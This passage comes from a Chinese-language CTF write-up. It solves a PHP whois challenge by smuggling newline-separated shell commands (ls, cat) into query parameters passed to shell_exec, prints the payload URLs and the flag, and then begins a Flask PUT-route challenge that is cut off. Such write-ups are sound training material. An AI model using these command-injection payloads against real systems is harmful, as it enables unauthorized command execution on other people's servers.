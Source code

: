 ```php
  }

} 
else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Whois</title>
  </head>
  <body>
    <pre><?= htmlspecialchars($output) ?></pre>
  </body>
</html>
```
接受host和query参数，然后在远程执行shell_exec函数，最后通过htmlspecialchars函数输出
- 接下来就是构造参数了
host参数只能由0-9、a-z、A-Z、.（点）、-（减号）以及\n或者\r 组成
query参数只能由0-9、a-z、A-Z、.（点）、 （空格）以及\n或者\r组成
这里命令拼接就只能使用换行符\n，在url中是%0a
payload
```
http://82.157.146.43:11975/query.php?host=whois.verisign-grs.com%0a&query=ls
```
返回当前目录下的所有文件：
index.html
query.php
thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
直接查看thisistheflagwithrandomstuffthatyouwontguessJUSTCATME文件
http://82.157.146.43:11975/query.php?host=whois.verisign-grs.com%0a&query=cat thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
拿到flag:shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}

## 1.7 put传递参数
- bugku charlottesweb
进入环境查看源代码
![alt text](image-8.png)
进入/src，开始下载app.py
```python
import flask

app = flask.Flask(__name__)

@app.route('/', methods=['GET'])
def index():
  return flask.send_file('index.html')

@app.route('/src', methods=['GET'])
def source():
  return flask.send_file('app.py')

@app.route('/super-secret-route-nobody-will-guess', methods=['PUT'])
```